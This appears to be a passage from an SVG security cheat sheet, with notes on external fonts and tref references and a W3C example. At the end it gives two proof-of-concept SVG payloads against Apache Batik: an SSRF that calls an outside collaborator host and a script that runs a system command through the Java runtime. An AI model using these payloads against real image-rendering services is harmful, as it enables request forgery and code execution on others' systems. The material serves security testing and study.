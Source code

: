 #### Other

It's possible to include external fonts if you ever wanted to do that, I think both via CSS and via native attributes. This isn't really useful though because webfonts require CORS for some reason I don't really understand related to DRM for font resources to prevent hotlinking. I guess sometimes there are font engine vulnerabilities though.

###### Text

This example from the SVG spec shows using a tref node to reference text by URI, however it doesn't seem to work in any viewer I've tried. If there is an implementation that supports it, it might also support external URIs for the href in the tref.

``` xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" 
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="10cm" height="3cm" viewBox="0 0 1000 300"
     xmlns="http://www.w3.org/2000/svg" version="1.1"
     xmlns:xlink="http://www.w3.org/1999/xlink">
  <defs>
    <text id="ReferencedText">
      Referenced character data
    </text>
  </defs>
  <desc>Example tref01 - inline vs reference text content</desc>
  <text x="100" y="100" font-size="45" fill="blue" >
    Inline character data
  </text>
  <text x="100" y="200" font-size="45" fill="red" >
    <tref xlink:href="##ReferencedText"/>
  </text>
  <!-- Show outline of canvas using 'rect' element -->
  <rect x="1" y="1" width="998" height="298"
        fill="none" stroke="blue" stroke-width="2" />
</svg>
```
#### CVE-2022-38398 Apache XML Graphics Batik SSRF
```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="450" height="500" viewBox="0 0 450 500">
<image width="50" height="50 xlink:href="jar:http://gbvj631zwa8yh8ch6y0w2uxxiooec3.oastify.com/poc?poc=cve_2022_38398!/"></image>
</svg>
```
#### CVE-2022-40146 Apache XML Graphics Batik RCE
```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="450" height="500" viewBox="0 0 450 500">
<script type="text/ecmascript">eval(''+new String(java.lang.Runtime.getRuntime().exec('calc.exe')));"</script>
</svg>
```
#### 参考  
https://github.com/allanlw/svg-cheatsheet 
